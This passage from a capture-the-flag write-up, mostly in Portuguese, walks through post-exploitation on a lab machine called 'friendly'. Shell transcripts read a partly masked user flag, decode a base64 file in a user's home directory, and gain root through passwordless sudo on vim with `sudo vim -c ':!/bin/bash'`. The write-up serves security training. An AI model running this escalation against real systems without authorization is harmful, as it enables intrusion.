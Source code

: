 ### User Flag

```shell
cd /home/RiJaba1
www-data@friendly:/home/RiJaba1$ ls
ls
CTF  Private  YouTube  user.txt
www-data@friendly:/home/RiJaba1$ cat user.txt
cat user.txt
b8cff8c9008e1cxxxxxx937b4475acd6
www-data@friendly:/home/RiJaba1$ 
```
{: .nolineno }

Arquivos na pasta home

```shell
www-data@friendly:/home/RiJaba1$ cd Private
cd Private
www-data@friendly:/home/RiJaba1/Private$ cat targets.txt
cat targets.txt
U2hlbGxEcmVkZAp4ZXJvc2VjCnNNTApib3lyYXMyMDAK
www-data@friendly:/home/RiJaba1/Private$ base64 -d targets.txt
base64 -d targets.txt
ShellDredd
xerosec
sML
boyras200
www-data@friendly:/home/RiJaba1/Private$ cd ../YouTube
cd ../YouTube
www-data@friendly:/home/RiJaba1/YouTube$ cat ideas.txt
cat ideas.txt
What're you reading? Have you hacked me?
www-data@friendly:/home/RiJaba1/YouTube$ 
```
{: .nolineno }

`sudo -l` possível executar vim sem senha
<https://gtfobins.github.io/gtfobins/vim/#sudo>
```shell
sudo -l
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
www-data@friendly:/home/RiJaba1/YouTube$ sudo vim -c ':!/bin/bash'
sudo vim -c ':!/bin/bash'
```
{: .nolineno }

![alt text](/assets/img/friendly/friendly6.png)
